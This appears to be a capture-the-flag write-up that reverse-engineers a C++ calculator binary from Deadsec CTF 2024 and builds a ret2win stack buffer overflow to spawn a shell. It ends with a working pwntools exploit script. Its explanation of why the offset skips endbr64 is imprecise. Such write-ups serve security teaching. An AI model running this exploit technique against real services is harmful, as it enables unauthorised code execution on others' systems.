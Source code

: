 ```yaml
---
date: "2024-07-30"
layout: post
title: Super CPP Calculator (pwn)
---
```


Super CPP Calculator is a pwn challenge from Deadsec ctf 2024

There's one binary given, let's examine the binary first:

![checksec](checksec.png)

OK, looks promising for an easy pwn, let's open the binary in Ghidra.

Looking at the main function in Ghidra (cleaned up for clarity)

![main](main.png)

There are a few things to note here, we can see that a `Calculator` class is used here, and it appears to be allocated on the stack, so let's look at the class.

![stdcall](stdcall.png)

This is what you may see when you open the constructor in Ghidra, you may ask, what is this `in_RDI` thing?

If you are familiar with the standard C calling convention, rdi is usually used as the first argument to a function call. In this case, if we refer to the main function, we call the constructor with the first parameter as the stack-allocated Calculator object, so from this, we can infer that the constructor does take a parameter.

In pure C, it may look like something like this:

```c
struct Calculator {
    int a;
    ...
};

void Calculator_init(struct Calculator* calc) {
    calc->a = 0;
    ...
}

int main() {
    struct Calculator calc;
    Calculator_init(&calc);
}

```

A quick Google search revealed that C++ classes use the `__thiscall` calling convention, we can edit the function signature in Ghidra to achieve that. Here is the cleaned up constructor:

![constructor](constructor.png)

The constructor for the calculator class appears to set all the attributes of the class to zero.

Let's keep examining the binary, here we can take a look at the backdoor that has been given to us.

![backdoor](backdoor.png)

Looks like we have something of interest here, a `read` function, and the `len` parameter that appears to be an attribute of the calculator object. We also have a buffer that we can control, we have a buffer overflow here.

Looking slightly deeper into the function listing in Ghidra, we see a win function:

```c
void win(void) {
    system("/bin/sh");
}
```

Based on these clues, this is a ret2win buffer overflow exploit, now we need to figure out how to control `this+24` so we can overflow the return address.

Let's look at the `setnumber_floater` method:

![floater](floater.png)

This function looks like a lot of code, but there are a few details:

In line 21-22, we can see that the value of `this+24`, which is the value for the `len` parameter, is the quotient of the two values we put in, with constraints. We can derive the formula, shout out to my friend [August](https://squirrelly.glykon.cc/):

```c
float A = this + 12  0.0 < A < 10.0
float B = this + 16  0.0 < B < 10.0
size_t len = (int)A/B
```

Now we need to figure out how many bytes we need to read to overflow the stack in the backdoor, let's look at the assembly for backdoor.

![stack-size](stack-size.png)

The total stack size of the backdoor function is hex 410, that translates to 1040 bytes in decimal. Recall the stack layout:

```
---------
ret addr
---------
saved rbp
---------
local var
---------
```

Looking at the assembly `lea rax, [rbp-0x400]; mov rsi,rax`, the buffer starts at rbp - 1024, in order to reach the return address, we need to write 1024(local var) + 8 bytes (rbp) of data, adding the packed return address after.

Knowing this data, we can divide 10 by a small number, such as 0.008, to give us enough read for the buffer overflow.

To put it together, first we need to make the selection to enter `floater_calculator`, then put in the two values to set `this + 24`, then we can put in `1337` to trigger the back door, writing the overflow, then ret2win.

Full solve is following:

```py
from pwn import *
context.terminal = ['tmux', 'splitw','-h']
HOST = "35.224.190.229"
#run = remote(HOST, 31972)
e = context.binary = ELF("./test")
run = e.debug()
run.sendline(b"1")
run.sendline(b"10")
run.sendline(b"0.008")
run.sendline(b"1337")
run.send(b'a'*1032+p64(e.address+0x1748)) # offset for win
run.interactive()
```

You may ask, why did you return to offset 0x1748 and not 0x1740? This is because the `endbr64` instruction attempts to align the stack, which causes a crash in the following `system` call, so to bypass that, it is better to return slightly after that to avoid the stack alignment issue.

Thanks for reading.
